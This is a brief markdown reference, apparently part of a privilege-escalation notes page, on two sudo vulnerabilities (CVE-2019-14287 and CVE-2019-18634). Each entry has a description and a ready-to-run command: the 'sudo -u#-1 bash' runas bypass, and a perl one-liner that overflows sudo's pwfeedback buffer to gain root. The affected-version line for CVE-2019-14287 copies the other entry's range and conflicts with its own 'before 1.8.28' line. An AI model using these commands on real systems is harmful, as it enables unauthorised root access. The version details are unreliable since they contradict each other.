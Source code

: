 
#### CVE-2019-14287

- **Description**: A flaw was found in the way sudo implemented running commands with arbitrary user ID. If a sudoers entry is written to allow the attacker to run a command as any user except root, this flaw can be used by the attacker to bypass that restriction.
- **Affected Version**: Sudo versions 1.7.1 to 1.8.30 inclusive on Red Hat/CentOS
- **Example**: Sudo versions before 1.8.28

![](CVE-2019-14287.png)

- **Command**: sudo -u#-1 bash

#### CVE-2019-18634

- **Description**: A stack-based buffer overflow vulnerability was discovered in sudo, a program designed to provide limited super user privileges to specific users, triggerable when configured with the “pwfeedback” option enabled. An unprivileged user can take advantage of this flaw to obtain full root privileges. If enabled, users can trigger a stack-based buffer overflow in the privileged sudo process.
- **Affected Version**: Sudo versions 1.7.1 to 1.8.30 inclusive on Red Hat/CentOS
- **Example**:

![](CVE-2019-18634.png)

- **Command**: perl -e 'print(("A" x 100 . chr(0)) x 50)' | sudo -S -k id

Sources: 

https://resources.whitesourcesoftware.com/blog-whitesource/new-vulnerability-in-sudo-cve-2019-14287
https://www.linuxminion.com/sudo-stack-based-buffer-overflow-vulnerability-pwfeedback/